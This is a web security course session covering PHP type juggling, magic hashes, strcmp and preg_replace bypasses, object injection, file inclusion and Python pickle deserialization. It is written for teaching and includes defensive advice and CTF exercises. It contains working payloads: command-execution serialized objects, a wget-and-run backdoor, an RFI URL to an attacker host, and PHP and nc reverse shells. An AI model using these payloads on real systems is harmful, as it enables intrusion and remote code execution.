






# Introduction

As a web developer, you need to pay attention to the quirks of your chosen programming language.
There are lots of vulnerabilities generated by the developer’s disregard to language-specific details or just by programming mistakes.

The most common server-side language on the web today is still **PHP**.
There are lots of legacy websites which used this language to begin with, and a complete refactor is just not worth it.
Today, even if there are better options for the server-side choice, PHP is still pretty popular.



Source [here](https://w3techs.com/technologies/overview/programming_language).

There are also lots of different PHP versions, each with its own vulnerabilities.
A small insight into the distribution of versions across the web is:



Source [here](https://w3techs.com/technologies/details/pl-php).

In this session we will focus on some exotic attacks against specific PHP functions and functionalities, as well as a quick overview of other interesting quirks.

# PHP Type Juggling

Much like Python and Javascript, PHP is a dynamically typed language.
This means that variable types are checked while the program is executing.
For example, let’s take a variable called `$var`.
If we assign a string value to it, it becomes a string.
If an integer value is then assigned to `$var`, it becomes an integer.

Dynamic typing allows developers to be more flexible when using PHP.
But this kind of flexibility sometimes causes unexpected errors in the program flow and can even introduce critical vulnerabilities into the application.

In this section we will discuss **PHP type juggling** and how this can lead to authentication bypass vulnerabilities.



## How PHP compares values

PHP has a feature called "type juggling" or "type coercion".
This means that during the comparison of variables of different types, PHP will first convert them to a common, comparable type.

For example, when the program is comparing the string `"7"` and the integer `7` in the scenario below:

```php
<?php
    $example_int = 7;
    $example_str = "7";
    if ($example_int == $example_str) {
       echo("PHP can compare ints and strings.");
    }
?>
```

The code will run without errors and output `PHP can compare ints and strings.`.
This behavior is very helpful when you want your program to be flexible in dealing with different types of user input.

However, it is also important to note that this behavior is also a major source of bugs and security vulnerabilities.

For example, when PHP needs to compare the string `"7 puppies"` to the integer `7`, PHP will attempt to extract the integer from the string.
So this comparison will evaluate to **True**.

`("7 puppies" == 7) -> True`

But what if the string that is being compared does not contain an integer? The string will then be converted to a `"0"`.
So the following comparison will also evaluate to **True**:

`("Puppies" == 0) -> True`

You can try this yourself using an online PHP sandbox, such as [this one](http://www.writephponline.com/).

## Loose Comparison vs. Strict Comparison (`==` vs `===`)

The `==` and `!=` are the default comparison operators in other languages.
But PHP has two main comparison modes, let’s call them **loose** (`==` and `!=`) and **strict** (`===` and `!==`).

The strict mode works by also comparing the type of the variable as well as the value.
So, for example, if we compare the number `7` and the string `"7"`, the result will be false because of the different types.
This time, PHP won’t use type juggling before comparing the values.

The following tables showcase the difference between the two comparison modes:

| Loose comparison    | Strict comparison   |
| ------------------- | ------------------- |
|  |  |

However, loose type comparison behavior like the one presented above is pretty common in PHP and many built-in functions work in the same way.
You can probably already see how this can be very problematic, but how exactly can hackers exploit this behavior?

## How vulnerability arises

The most common way that this particularity in PHP is exploited is by using it to bypass authentication.
Let’s say the PHP code that handles authentication looks like this:

```php
<?php
    if ($_POST["password"] == "Admin_Password") {
        login_as_admin();
    }
?>
```

Then, simply submitting an integer input of `0` would successfully log you in as admin, since this will evaluate to **True**:

`(0 == "Admin_Password") -> True`

### Conditions of exploitation

However, this vulnerability is not always exploitable and often needs to be combined with a deserialization flaw.
The reason for this is that **POST**, **GET** parameters and **cookie** values are, for the most part, passed as strings or arrays into the program.

If the **POST** parameter from the example above was passed into the program as a string, PHP would be comparing two strings, and no type conversion would be needed.
And `"0"` and `"Admin_Password"` are, obviously, different strings.

`("0" == "Admin_Password") -> False`

However, type juggling issues can be exploited if the application accepts the input via functions like `json_decode()` or `unserialize()`.
This way, it would be possible for the end-user to specify the type of input passed in.

`{"password": "0"}`
`{"password": 0}`

Consider the above JSON blobs.
The first one would cause the password parameter to be treated as a string whereas the second one would cause the input to be interpreted as an integer by PHP.
This gives an attacker fine-grained control of the input data type and therefore the ability to exploit type juggling issues.

## Avoiding type juggling issues in PHP code

As a developer, there are several steps that you can take to prevent these vulnerabilities from happening.

### Use strict comparison operators

When comparing values, always try to use the type-safe comparison operator `===` instead of the loose comparison operator `==`.
This will ensure that PHP does not type juggle and the operation will only return **True** if the types of the two variables also match.
This means that `(7 === "7")` will return **False**.

### Specify the "strict" option for functions that compare

Always consult the PHP manual on individual functions to check if they use loose comparison or type-safe comparison.
See if there is an option to use strict comparison and specify that option in your code.

For example, PHP’s `in_array()` uses loose comparison by default.
But you can make it switch to type-safe comparison by specifying the `strict` option.
If the function only provides loose comparison, avoid using that function and search for alternatives instead.

### Avoid typecasting before comparison

Avoid typecasting right before comparing values, as this will essentially deliver the same results as type juggling.
For example, before typecasting, the following three variables are all seen as distinct by the type-safe operator.

```php
<?php
    $example_int = 7;
    $example_str = "7_string";
    $example_str_2 = "7";
    if ($example_int === $example_str) {
        // This condition statement will return False
        echo("This will not print.");
    }
    if ($example_int === $example_str_2) {
       // This condition statement will return False
        echo("This will not print.");
    }
?>
```

Whereas after typecasting, PHP will only preserve the number extracted from a string, and `"7_string"` will become the integer `7`.

```php
<?php
    $example_int = 7;
    $example_str = "7_string";
    if ($example_int === (int)$example_str) {
        // This condition statement will return True
        echo("This will print.");
    }
?>
```

# More PHP vulnerabilities

## Magic hashes

Magic hashes are hashes that start with a leading `0e` (the scientific notation for "0 to the power of some value") and have only numbers after that.

Let's say you stored a hashed password that looks like this: `0e462097431906509019562988736854`, which is the value returned by `md5(240610708)`.
Being a magic hash, if we use the loose comparison operator `==` against the user input and provide `0` as value, the following code will always return "Matched".

```php
<?php
    $passwordHash = md5('240610708');
    // $_GET['password'] = '0'
    if ($passwordHash == $_GET['password']) {
        echo "Matched";
    } else {
  echo "Not matched";
    }
?>
```

Below is a table of such hashes discovered so far:

| Hash Type | Hash Length | "Magic" Number / String | Magic Hashes                              | Found By                |
| --------- | ----------- | ----------------------- | ----------------------------------------- | ----------------------- |
| md2     | 32    | 505144726             | 0e015339760548602306096794382326          | WhiteHat Security, Inc. |
| md4     | 32    | 48291204              | 0e266546927425668450445617970135          | WhiteHat Security, Inc. |
| md5     | 32    | 240610708             | 0e462097431906509019562988736854          | Michal Spacek           |
| md5     | 32    | QNKCDZO             | 0e830400451993494058024219903391          | -                       |
| sha1      | 40    | 10932435112             | 0e07766915004133176347055865026311692244  | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| sha224    | 56    | –                     | –                                         | –                       |
| sha256    | 64    | –                     | –                                         | –                       |
| sha384    | 96    | –                     | –                                         | –                       |
| sha512    | 128   | –                     | –                                         | –                       |
| ripemd128 | 32    | 315655854             | 0e251331818775808475952406672980          | WhiteHat Security, Inc. |
| ripemd160 | 40    | 20583002034             | 00e1839085851394356611454660337505469745  | Michael A Cleverly      |

Even though you won't find such examples on a daily basis, it's important to know that there is such a possibility and beware of using loose comparison.
It's just another example of how dangerous it is.

## Bypassing `strcmp()` function

The `strcmp($str1, $str2)` function compares two strings.
The only possible return values are:
> **0**, if `$str1` is equal to `$str2`
> **< 0**, if `$str1` is less than `$str2`
> **\> 0**, if `$str1` is greater than `$str2`

But what happens if we use the following code to check for a password?

```php
<?php
    if (strcmp($password, $_POST['password']) == 0) {
        $success = true;
    } else {
        $success = false;
    }
?>
```

We could provide an array in the POST parameter instead of a string (`password[]=x`), resulting in PHP throwing a warning:

`Warning: strcmp() expects parameter 2 to be string, array given in http://example.com/index.php on line 5`

The interesting part here is that, even though PHP throws a warning, it goes on comparing the result of `strcmp()`, which is `NULL`, to `0` using the previously discussed loose comparison operator.
This means that `NULL` will be equal to `0` and so we could bypass the authentication.

## Using `preg_replace()` to execute commands

The `preg_replace()` function is used to perform regular expressions search and replace.
A legitimate use of it could be:

```php
<?php
    $in = 'Somewhere, something incredible is waiting to be known';
    echo preg_replace($_GET['replace'], $_GET['with'], $in);
?>
```

The code will take a user-supplied regular expression and replace whatever it matches with a user-supplied string.
So if we were to call `preg_replace.php?replace=/Known/i&with=eaten`, the script would perform a case-insensitive regex search (the `i` modifier) and echo `Somewhere, something incredible is waiting to be eaten`.
Seems safe enough, right?

Well, not at all.
The above code is vulnerable to code injection as it fails to account for dangerous [PCRE modification flags](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) in the input string.
Most modifiers are quite harmless and let you do things like case-insensitive and multi-line searches, however one modifier, `e` will cause PHP to execute the result of the `preg_replace()` operation as PHP code.

The payload is: `?replace=/Known/e&with=system(‘whoami’)`

This is extremely dangerous, as it gives an attacker the opportunity to execute any PHP code.

It has been **deprecated** since **PHP 5.5.0**, and **removed completely** in **PHP 7.0.0**, because of its recklessly insecure nature.
The replacement function is called `preg_replace_callback()`, which uses a callback.
As many people are still using older versions of PHP, it is still dangerous and even in the versions where it was deprecated, the option will still work (it will generate a warning at a log level turned off by default), so the issue will be around for a while yet.

# PHP Object Injection / PHP Insecure Object Deserialization

**PHP Object Injection** is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context.
The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the `unserialize()` PHP function.
Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable `unserialize()` call, resulting in an arbitrary PHP object(s) injection into the application scope.

In order to go further, we need to know some things about **PHP magic methods**.
The "magic" methods are nothing more than a set of special named functions, starting with two underscores, which denote methods that will be triggered in response to particular PHP events.
A well known example, which you should be familiar with from other programming languages, is the `__construct()` method, which is a class constructor.

The following magic methods will be helpful in exploiting a PHP Object injection vulnerability:

* `__wakeup()` - when an object is unserialized.
* `__destruct()` - when an object is deleted.
* `__toString()` - when an object is converted to a string.

A more comprehensive list of PHP magic methods would be this one:

|                    |                  |                   |
| ------------------ | ---------------- | ----------------- |
| `__construct()`    | `__set()`        | `__toString()`    |
| `__destruct()`     | `__isset()`      | `__invoke()`      |
| `__call()`       | `__unset()`      | `__set_state()`   |
| `__callStatic()`   | `__sleep()`      | `__clone()`       |
| `__get()`          | `__wakeup()`     | `__debugInfo()`   |

### Exploit with the `__wakeup` in the `unserialize()` function

```php
<?php
    class PHPObjectInjection {
        public $inject;
        function __construct() {

        }
        function __wakeup() {
            if (isset($this->inject)) {
                eval($this->inject);
            }
        }
    }
    if (isset($_REQUEST['r'])) {
        $var1 = unserialize($_REQUEST['r']);
        if (is_array($var1)) {
            echo "<br/>" . $var1[0] . " - " . $var1[1];
        }
    } else {
        echo ""; # nothing happens here
    }
?>
```

Payload:

```
# Basic serialized data
a:2:{i:0;s:4:"XVWA";i:1;s:33:"Xtreme Vulnerable Web Application";}

# Command execution
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('whoami');";}
```

This vulnerability is **extremely dangerous**, as it could also lead to an **RCE (Remote Code Execution)** exploit.
An attacker could use a payload which downloads a script and starts a reverse shell connected to the web server.
The payload could look like this:

```php
<?php
    class PHPObjectInjection
    {
        // Change URL/ filename to match your setup
        public $inject = "system('wget http://URL/backdoor.txt -O phpobjbackdoor.php && php phpobjbackdoor.php');";
    }
    echo urlencode(serialize(new PHPObjectInjection));
?>
```

Of course, there are many other methods to achieve a reverse shell once you have the ability to execute code on the target machine.

### Authentication bypass - Type juggling

```php
<?php
    include("credentials.php");

    // $adminName = "random";
    // $adminPassword = "pass";

    $data = unserialize($_COOKIE['auth']);

    if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
        echo "You logged in as admin!";
    } else {
        echo "Login failed!";
    }
?>
```

Payload: `a:2:{s:8:"username";b:1;s:8:"password";b:1;}`

# Local File Inclusion (LFI) / Remote File Inclusion (RFI)

An attacker can use **Local File Inclusion (LFI)** to trick the web application into exposing or running files on the web server.
An **LFI** attack may lead to **Information Disclosure**, **Remote Code Execution (RCE)**, or even **Cross-site Scripting (XSS)**.

Typically, **LFI** occurs when an application uses the path to a file as input.
If the application treats this input as trusted, a local file may be used in the include statement.

Using **Remote File Inclusion (RFI)**, an attacker can cause the web application to include a remote file.
This is possible for web applications that dynamically include external files or scripts.
Potential web security consequences of a successful **RFI** attack range from **Sensitive Information Disclosure** and **Cross-site Scripting (XSS)** to **Remote Code Execution (RCE)** and, as a final result, **full system compromise**.

**Remote file inclusion** attacks usually occur when an application receives a path to a file as input for a web page and does not properly sanitize it.
This allows an external URL to be supplied to the include function.



The above definitions are very similar, so what is the exact difference between the two of them and how does an exploit affect the web application in each case?

## Local File Inclusion

**Local File Inclusion** can be divided into subcategories based on the end target of the attack.

1. **Path Traversal** - which we have studied in a previous session.
It uses a local file path and enables the attacker to access the contents of arbitrary files.
The outcome of this attack is to read sensitive data and expose confidential information.

2. **Remote Code Execution (RCE)** - which is a **very dangerous vulnerability**.
It could be present in web applications that offer the possibility of uploading arbitrary files without proper checks.
Once a malicious file was uploaded (such as a reverse shell), the attacker can compromise the entire system.

```php
<?php
    // Get the filename from a GET input
    // Example - http://example.com/?file=filename.php
    $file = $_GET['file'];

    // Unsafely include the file
    // Example - filename.php
    include('directory/' . $file);
?>
```

Payload: `http://example.com/?file=../../uploads/evil.php`

## Remote File Inclusion

Exactly like in the case of **Local File Inclusion**, where the attacker is able to upload a reverse shell on the server, the **Remote File Inclusion** vulnerability lets the attacker include a remote file in the current web application and execute its contents.
This file could be a reverse shell and give the attacker **full system control**.

```php
<?php
    // Get the filename from a GET input
    // Example - http://example.com/?file=index.php
    $file = $_GET['file'];

    // Unsafely include the file
    // Example - index.php
    include($file);
?>
```

Payload: `http://example.com/?file=http://attacker.example.com/evil.php`

**Note:** Even though some web servers run as **root** (**which is a very bad practice**), most of them run as a special user (**www-data**) which doesn’t have root privileges.
This means that getting a reverse shell on a web server will grant you only the rights of the user running the website.
In order to get root access on the machine, further **privilege escalation** methods should be employed, which you will learn about in a future session.

### Example of a simple reverse shell in PHP:

```php
<?php
    $sock = fsockopen("127.0.0.1",1234);
    $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```
# Python Insecure Deserialization / `pickle` module

We have looked at so many PHP vulnerabilities in this session, but you shouldn't be left with the impression that PHP is the only vulnerable language.
In this section we will approach an insecure object deserialization in a Python web application.

## Python `pickle`

In Python, the `pickle` module lets you serialize and deserialize data.
Essentially, this means that you can convert a Python object into a stream of bytes and then reconstruct it (including the object’s internal structure) later in a different process or environment by loading that stream of bytes.

When consulting the Python docs for pickle one cannot miss the following warning:

`Warning: The pickle module is not secure. Only unpickle data you trust.`

Let's have a look at how `pickle` handles your data. In Python you can serialize objects by using `pickle.dumps()`:

```python
import pickle

pickle.dumps(['pickle', 'me', 1, 2, 3])
```

The pickled representation we’re getting back from dumps will look like this:

`b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e'`

And now reading the serialized data back in...

```python
import pickle

pickle.loads(b'\x80\x04\x95\x19\x00\x00\x00\x00\x00\x00\x00]\x94(\x8c\x06pickle\x94\x8c\x02me\x94K\x01K\x02K\x03e.')
```

...will give us our list object back:

```python
['pickle', 'me', 1, 2, 3]
```

What is actually happening behind the scenes is that the byte-stream created by dumps contains opcodes that are then one-by-one executed as soon as we load the pickle back in.

Not every object can be serialized (e.g. file handles) and pickling and unpickling certain objects (like functions or classes) comes with restrictions.
The Python docs give you a good overview of what can and cannot be pickled.

While in most cases you don’t need to do anything special to make an object "picklable", pickle still allows you to define a custom behavior for the pickling process for your class instances.

Reading a bit further down in the docs we can see that implementing `__reduce__` is exactly what we would need to get code execution, when viewed from an attacker’s perspective:

> The `__reduce__()` method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the "reduce value"). [...]
When a tuple is returned, it must be between two and six items long.
Optional items can either be omitted, or `None` can be provided as their value.
The semantics of each item are in order:
> * A callable object that will be called to create the initial version of the object.
> * A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument. [...]

So by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run.
While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

A sample payload generator which opens a reverse shell can be analyzed below:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

This code will generate a reverse shell, which opens the possibility of **RCE** on the target machine.
In order to accomplish this, you also need to make sure the port is accessible to the Internet.
You may find some simple instructions for how to do this [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/), using `ngrok`.
Again, it's one of the most dangerous vulnerabilities for a web application, whatever the programming language was chosen for the back-end (be it **PHP**, **Python**, **JavaScript**, **Ruby**, etc.), and the programmer should be aware and protect it against malicious actors.
Also, always research the functions and modules used inside your application to prevent such vulnerabilities.

# Wrap Up

As you have seen so far, even a small mistake, such as using `==` instead of `===`, can cause your application to break at unexpected input.
From an attacker standpoint, you can never know if the programmer was careful enough when writing the code, so you should always research and test what exploits can the application be vulnerable to, specific to the language / framework used.

The most important aspect we kept talking about during all the sessions is to never trust the user input.
He can have malicious thoughts and purposefully try to break the application or he can unknowingly send a bad request and achieve the same result.
In conclusion, the code should be properly tested before being put in production and the user input should always be carefully sanitized.

# Further Reading

* https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
* https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/
* https://foxglovesecurity.com/2017/02/07/type-juggling-and-php-object-injection-and-sqli-oh-my/
* https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/
* https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09
* https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/
* https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/
* https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/
* https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/
* https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
* https://www.whitehatsec.com/blog/magic-hashes/
* https://davidhamann.de/2020/04/05/exploiting-python-pickle/

# Activities

* [Breaking Hashes](https://sss-web.cyberedu.ro/challenge/5eb0b460-0849-11ed-bb4d-935fa24b7bf2)
* [Defaced Website](https://sss-web.cyberedu.ro/challenge/9f845f10-0849-11ed-8fc0-2d7dcc866b21)
* [Handy Tool](https://sss-web.cyberedu.ro/challenge/bb9ee7b0-0849-11ed-a68c-f70dace328dc)
* [Jar of Pickles](https://sss-web.cyberedu.ro/challenge/d3a9cb70-0849-11ed-8436-9bcd29625f3f)
* [Meme Uploader](https://sss-web.cyberedu.ro/challenge/ee04f8d0-0849-11ed-851c-af7641b8a719)
* [Pro Replacer](https://sss-web.cyberedu.ro/challenge/06d17960-084a-11ed-95a0-a9f50e1b83e7)
* [TODO App](https://sss-web.cyberedu.ro/challenge/1cb64670-084a-11ed-8430-29d0d2a909b5)
